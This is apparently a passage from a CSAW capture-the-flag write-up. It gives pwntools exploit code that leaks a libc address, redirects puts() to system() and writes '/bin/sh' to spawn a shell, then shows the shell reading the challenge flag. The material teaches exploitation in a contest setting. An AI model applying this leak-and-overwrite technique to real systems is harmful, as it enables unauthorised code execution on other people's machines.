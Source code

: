```python

# Read address of puts by printing block
puts_addr = u64(print_block()[:6]+'\x00\x00')

# Calculate system location
system_addr = puts_addr + SYSTEM_OFFSET

# Write to block system's address, puts() now is system()
write(p64(system_addr), False)

# Create a new block on a clean table, then write our command to it
allocate(512, False)
write('/bin/sh', False)

# Print block, which calls system('/bin/sh')
p.sendline('4')

# Enjoy shell
p.interactive()
```
The calls to clean() were necessary to make this work over the network, it looks like some stuff was getting consumed weirdly at times.

Using the exploit against CSAW's server nets us the flag:
```
root@hackbox:/home/anichno/csaw/zone# python tut.py 
[+] Opening connection to pwn.chal.csaw.io on port 5223: Done
[*] Switching to interactive mode
$ cat flag
flag{d0n7_let_m3_g3t_1n_my_z0n3}
```
















